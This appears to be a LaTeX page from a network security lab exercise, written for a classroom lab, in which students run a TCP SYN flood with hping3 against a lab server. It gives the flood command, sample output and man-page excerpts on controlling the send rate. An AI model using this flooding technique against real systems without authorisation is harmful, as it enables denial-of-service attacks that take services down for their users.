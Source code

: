 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

Try doing the most common attacks TCP SYN flood using hping3:

\begin{alltt}
hping3 --flood -p 80 -S 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}

You can try different ports with TCP flooding, try port 22/tcp or HTTP(S) port 80/tcp and 443/tcp


{\bf Hints:}\\
The tool we use can do a lot of different things, and you can control the speed. You can measure at the server being attacked or what you are sending, commonly using ifpps or such programs can help.

By changing the speed we can find out how much traffic is needed to bring down a service. This measurement can then be re-checked later and see if improvements really worked.

This allows you to use the tool to test devices and find the breaking point, which is more interesting than if you can overload, because you always can.
\begin{alltt}\footnotesize
-i --interval
       Wait  the  specified  number  of  seconds or micro seconds between sending each packet.
       --interval X set wait to X seconds, --interval uX set wait to X micro seconds.  The de‐
       fault  is  to  wait one second between each packet. Using hping3 to transfer files tune
       this option is really important in order to increase transfer rate. Even  using  hping3
       to  perform  idle/spoofing  scanning  you should tune this option, see HPING3-HOWTO for
       more information.

--fast Alias for -i u10000. Hping will send 10 packets for second.

--faster
       Alias for -i u1. Faster then --fast ;) (but not as fast as your computer can send pack‐
       ets due to the signal-driven design).

--flood
       Sent  packets  as fast as possible, without taking care to show incoming replies.  This
       is ways faster than to specify the -i u0 option.
\end{alltt}
\end{document}
